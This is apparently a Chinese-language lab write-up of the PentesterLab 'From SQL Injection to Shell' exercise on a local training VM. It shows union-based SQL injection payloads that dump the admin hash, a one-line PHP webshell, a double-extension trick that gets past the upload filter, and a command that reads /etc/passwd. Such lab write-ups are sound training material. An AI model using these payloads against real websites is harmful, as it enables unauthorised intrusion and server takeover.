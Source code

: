 # 从SQL注入到Shell
![](images/cover.jpg)

# 实验过程

## 一. 环境搭建
- 首先, 在[PentesterLab](https://pentesterlab.com)的**[From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell)**课程网站上[下载](https://pentesterlab.com/exercises/from_sqli_to_shell/iso)靶机镜像文件`from_sqli_to_shell_i386.iso`
- 使用`VirtualBox`创建虚拟机并为其分配两块网卡
	- 一块NAT网卡用于上网
	- 一块Host-Only网卡用于宿主机的正常访问(或一块Internal网卡用于其他处于同一局域网内的虚拟机的正常访问)
- 开机后, 回车或什么都不做以自动选中**Live**模式
	![](images/boot.png)
- 经过一段短暂的加载滚屏后, 当出现`user@debian:~$`提示符后即表明加载完成
	![](images/user@debian.png)
- 此时执行`ifconfig eth1`以查看Host-Only网卡的IP地址
	![](images/ifconfig eth1.png)  
	可以看到其IP为`192.168.56.101`
- 在宿主机上访问该IP地址, 若出现网站首页则说明环境搭建成功
	![](images/web-home.jpg)

## 二. 注入过程
- 大致思路: 
	1. 通过SQL注入获取网站管理员用户的账户密码
		1. 找到一个注入点
		2. 通过`order by`来判断查询返回的列数
		3. 通过`union select 1, 2, 3 ...` 来判断被输出的列
		4. 通过`union select`来获取其他信息(如管理员用户的账户密码)
	2. 以网站管理员身份上传webshell

### 1. SQL注入
- 容易发现一个可能的注入点: `http://192.168.56.101/cat.php?id=xxx`
	![](images/id=1.png)
- 先尝试将参数`id`的值改为`2-1`, 然后重新访问. 如果返回的是`id=2`的内容, 则说明此处可能不太容易进行注入; 如果返回的是`id=1`的内容, 则说明此处很有可能是个注入点
- 这里返回的是`id=1`的内容, 说明此处是一个注入点
	![](images/id=2-1.png)
- 将`id`的值改为`1 order by 4`, 发现结果正常返回; 而当其值为`1 order by 5`时, 则返回了SQL的错误信息. 这说明查询的返回结果中有4列
	![](images/order by 4.png)
	![](images/order by 5.png)
- 然而此时我们并不知道被输出的"图像名"属于哪一列. 所以我们将`id`改为`1 union select 1, 2, 3, 4`,可以看到名为"2"的图像被查找到了, 说明第二列是图像名, 是可以被输出的信息
	![](images/1234.png)
- 这时, 我们希望获取的内容位于`infomation_schema.columns`表的`table_name, column_name`两个字段中. 由于这里我们只有一列的内容被输出, 所以我们需使用`concat`函数将这两个字符串进行拼接. 因此, 我们将上面的`2`改为`concat(tablename, ':', column_name)`并在末尾添加`from infomation_schema.columns`, 进行访问, 可以看到输出了很多结果:
	![](images/concat.png)
- 在结果中可以发现一个疑似存储用户信息的表`users`
	![](images/users.png)
- 将这两个字段进行筛选, 即得到`admin`与`8efe310f9ab3efeae8d410a8e0166eb2`,显然后者有很大概率是个哈希值. 尝试直接使用其作为密码进行登录, 发现确实不行, 故准备根据哈希值反推原密码
	![](images/admin.png)
- 首先猜想其可能是直接`md5`哈希值. 通过本地工具或在线网站, 容易得到其正是`P4ssw0rd`的直接`md5`哈希值. 尝试使用其作为`admin`的密码进行登录, 成功
	![](images/admin page.png)

### 2. 上传WebShell
- 首先在本地编写好WebShell并暂时命名为`123.php`

	```php
	<?php
	system($_GET['cmd']);
	```
- 尝试将其通过上传图片的方式进行上传, 发现网站识别出了其为php并且拒绝了此次上传
	![](images/no php.png)
- 将其更名为`123.png`, 重新上传, 发现上传成功
	![](images/uploaded.png)
- 在管理员页面点击"图片名"`webshell`,进入到该图片的访问页面. 在网页源代码中找到其所在位置为`admin/uploads/123.png`
	![](images/src.png)
- 在地址栏中直接访问该地址, 发现该文件**虽然被正常获取但是却被服务器当成png图片进行了返回, 而没有将其当成php脚本来执行**
	![](images/fail.png)
- 将文件名改为`123.php.fk`重新上传, 发现这次该文件执行正常, `WebShell`成功建立
	![](images/cmd=.png)
- `cmd`参数可以被当成指令正确执行(在Chrome中, 为方便查看输出结果可以使用*显示网页源代码*模式)
	![](images/cmd=cat etc passwd.png)
- 至此, `WebShell`上传成功